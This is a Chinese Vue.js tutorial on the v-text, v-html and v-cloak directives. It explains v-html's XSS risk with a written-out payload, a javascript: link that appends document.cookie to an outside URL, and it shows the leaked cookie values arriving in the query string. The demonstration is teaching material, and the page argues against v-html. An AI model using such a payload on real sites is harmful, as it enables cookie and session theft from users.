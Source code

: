 * v-on、v-bind，v-model

### v-text

* v-text 能替换掉节点里的内容
* v-text会将所有字符串正常当作字符串显示，不会解析标签文本

~~~html
<body>        <div id="app">        <h1>{{ msg }}</h1>        <h1 v-text='msg'>我这几个字会被替换掉</h1>    </div>    <script src="../node_modules/vue/dist/vue.js"></script>    <script>        new Vue({           el: '#app',           data () {              return {                  msg: 'hello vvvvv'              }           }        })    </script></body>
~~~

### v-html

* 它与v-text的区别就是他能解析标签文本
* 这里页面会显示出a连接

~~~html
<body>        <div id="app">        <h1>{{ msg }}</h1>        <h1 v-html='msg'>我这几个字会被替换掉</h1>            </div>    <script src="../node_modules/vue/dist/vue.js"></script>    <script>        new Vue({           el: '#app',           data () {              return {                  msg: 'hello  <a href="http://www.baidu.com">baidu</a>'              }           }        })    </script></body>
~~~

* 安全性问题
  * 对于这种能将字符串解析为标签的方式来说，存在着很大的问题 
  * xss攻击：冒充用户之手，就是利用用户的cookie来盗取信息

例如：

~~~html
<body>        <div id="app">        <h1 v-html='msg'></h1>    </div>    <script src="../node_modules/vue/dist/vue.js"></script>    <script>        new Vue({           el: '#app',           data () {              return {                  msg: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>这是一段诱惑性文字，你看到一定会点我的</a>'              }           }        })    </script></body>
~~~

这段字符串将会被解析为a标签显示在页面上，如果用户点击了该链接，将跳转到该网站并附带上当前网站的cookie信息

1. 模拟一下，先打开浏览器的cookie工具然后写一些cookie在上面

2. 刷新是不会去除cookie的，点击该链接
3. 跳转到百度网站，发现此时的地址栏

~~~shell
https://www.baidu.com/?id=root;%20pwd=111111
~~~

4. 刚刚那个网站的cookie（刚刚自己写上去的）被作为参数传给了百度网站
5. cookie是很重要的，包含了一些用户的敏感信息
6. 所以不建议这种能直接将字符串解析为标签的方式
7. 虽然，可以在cookie信息后面将 httpOnly勾选上(这样会禁止操作cookie，只有http协议能够去修改和携带)，如果服务器不完善，没有加httpOnly给用户的敏感信息，会出现漏洞

### v-cloak

* 这个属性会在vue文件加载完，vue实例接管了容器的时候，删除掉该属性
* 为了用户在网速慢时候页面显示出未经解析的模板
* 配合css属性选择器使用
